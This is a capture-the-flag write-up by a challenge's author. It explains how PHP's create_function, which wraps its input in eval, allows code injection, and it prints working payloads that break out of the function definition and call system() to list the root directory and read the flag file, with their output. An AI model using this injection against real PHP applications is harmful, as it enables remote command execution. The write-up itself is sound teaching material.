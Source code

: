 # I <3 PHP (100 points)

I created this challenge in an attempt to highlight the surprising
function implementations that the PHP language has to offer.

The challenge consists of the following code :
```
if (isset($_GET['code'])) {
  $new_func = create_function('', $_GET['code']);
  if ($_GET['code'] === "echo 'hello world';") {
    $new_func();
  }
}
```

Basically, it creates a function through `create_function` using code
specified through the arguments.

The function is then only executed *if* the code is `echo 'hello world';`.

By reading [PHP's manual on create_function](http://www.php.net/manual/en/function.create-function.php), you can see the following statement :

```
Caution
This function internally performs an eval() and as such has the same security issues as eval(). Additionally it has bad performance and memory usage characteristics.
If you are using PHP 5.3.0 or newer a native anonymous function should be used instead.
```

Essentially, create_function is an eval call which does the following :

```
function create_function($args, $code) {
  eval("
    function lambda_1 ($args) { $code }
  ");
  return 'lambda_1';
}
```

In a normal use case, the lambda_1 function is only defined. Nothing is executed.

But since we can control the body of the function, we can escape the definition,
and execute anything we want. Here's an example :

Let's inject the code `return 0; } echo 'outside'; //`

This will result in the following eval call :
```
eval("
  function lambda_1 () { return 0; } echo 'outside'; // }
");
```

We end up with a `lambda_1` definition containing `return 0;` and
an `echo 'outside';` statement which is executed.

We've successfully executed PHP code inside the `create_function` function.

Now let's call some system functions and find the flag :

```
# return 0; } system("ls /"); //

bin
boot
dev
etc
get_your_free_flag_here.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

```
# return 0; } system("cat /get_your_free_flag_here.txt"); //

// Congratz! PHP is such a fun language to break :D
// But good thing they deprecated this shit...
// http://php.net/manual/en/function.create-function.php

// Anyway, here's your flag :
HF-ca724db2d49bb280ca644ed39f09ed65
```
